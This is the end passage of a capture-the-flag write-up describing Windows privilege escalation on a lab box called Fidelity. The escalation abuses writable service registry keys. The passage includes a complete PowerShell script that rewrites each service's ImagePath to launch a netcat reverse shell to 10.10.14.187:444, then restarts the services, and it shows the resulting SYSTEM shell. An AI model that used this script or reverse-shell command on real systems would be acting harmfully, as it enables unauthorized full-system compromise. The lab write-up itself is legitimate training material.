RW HKLM\System\CurrentControlSet\Services\WSearch
	KEY_ALL_ACCESS
RW HKLM\System\CurrentControlSet\Services\WSearchIdxPi
	KEY_ALL_ACCESS
RW HKLM\System\CurrentControlSet\Services\WSearchIdxPi\Performance
	KEY_ALL_ACCESS
RW HKLM\System\CurrentControlSet\Services\wuauserv
	KEY_ALL_ACCESS
RW HKLM\System\CurrentControlSet\Services\wuauserv\Parameters
	KEY_ALL_ACCESS
RW HKLM\System\CurrentControlSet\Services\wuauserv\Security
	KEY_ALL_ACCESS
RW HKLM\System\CurrentControlSet\Services\wuauserv\TriggerInfo
[...]


There were lots of services which Hector had access to edit. However, I couldn't exploit all of them: in order to succesfully become SYSTEM, I needed to change the service's binary path to a reverse shell (granted by KEY_ALL_ACCESS) and also be able to restart the services (not included in the KEY_ALL_ACCESS permission). Since I couldn't find a way to see which services I can restart, I just used the scrit below to try and exploit each service:

# I still suck at powershell
# Command to be executed on successful exploitation
$cmd = "C:\inetpub\wwwroot\uploads\nc.exe 10.10.14.187 444 -e powershell.exe"

# Create a list of services
$otp = ./accesschk.exe "Hector" -kvuqsv hklm:\System\CurrentControlSet\Services
$services = $otp.Split([Environment]::NewLine)

# Lopp through each service
foreach($service in $services) {
	# If the current line is not a service, skip it
	if(!$service.StartsWith("RW HKLM")) {
		continue
	}
	# Validate that the line is indeed a service
	$name = $service.Split("\\")[-1].Split([Environment]::NewLine)[0]
	$s = Get-Service -Name $name -ErrorAction SilentlyContinue
	if(!$s) {
		continue
	}
	echo $service
	$serv = $service.Split(" ")[-1].Split([Environment]::NewLine)[0]
	echo $serv
	# Attempt to exploit the service:
	# 1. Change the service's binary path to $cmd
	# 2. Restart the service
	if($s.Status -eq 'Running') {
		reg add $serv /v ImagePath /t REG_EXPAND_SZ /d "$cmd" /f >a.txt
		if((Get-Service -Name $name).Status -eq 'Running') {
			Get-Service -Name $name | Stop-Service -ErrorAction SilentlyContinue
			Write-Host "[STOP] "$name
		}
	} elseif ($s.Status -eq 'Stopped') {
		reg add $serv /v ImagePath /t REG_EXPAND_SZ /d "$cmd" /f >a.txt
		if((Get-Service -Name $name).Status -eq 'Stopped') {
			Get-Service -Name $name | Start-Service -ErrorAction SilentlyContinue
			Write-Host "[START] "$name
		}
	}
}


After uploading and executing the script, a reverse shell connected on port 444 with NT UTHORITY/SYSTEM privileges. The restartable service seemed to be 'NetSetupSvc', though I'm not sure if it's the only one:

PS C:\Windows\system32> whoami; hostname; type c:\users\administrator\desktop\root.txt
whoami; hostname; type c:\users\administrator\desktop\root.txt
nt authority\system
Fidelity
[redacted]
PS C:\Windows\system32>


The first two characters of the root proof are '8f' 😉

If you liked this post and want to support me, please [follow me on Twitter](https://twitter.com/yakuhito) 🙂

Until next time, hack the world.

yakuhito, over.
